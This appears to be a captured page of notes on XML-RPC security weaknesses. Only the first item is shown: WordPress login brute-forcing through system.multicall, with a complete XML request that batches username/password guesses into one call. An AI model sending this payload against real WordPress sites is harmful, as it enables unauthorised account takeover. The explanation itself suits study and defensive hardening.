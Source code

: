 

XML-RPC has several security vulnerabilities that attackers can exploit. Here are the most common ones:  

---

##  **1. Brute Force Attacks (WordPress Login Bruteforce)**  
###  **Issue:**  
In WordPress, XML-RPC allows **system.multicall**, which lets attackers send multiple authentication attempts in a **single request**. This makes brute force attacks much faster than traditional login attempts.

###  **Exploit:**  
An attacker can use a single request to test multiple username/password combinations:  

```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>system.multicall</methodName>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>
              <struct>
                <member>
                  <name>methodName</name>
                  <value><string>wp.getUsersBlogs</string></value>
                </member>
                <member>
                  <name>params</name>
                  <value>
                    <array>
                      <data>
                        <value><string>admin</string></value>
                        <value><string>password123</string></value>
                      </data>
                    </array>
                  </value>
                </member>
              </struct>
            </value>
            <!-- Repeat with different password guesses -->
          </data>
        </array>
      </value>
    </param>
  </params>
</methodCall>
```
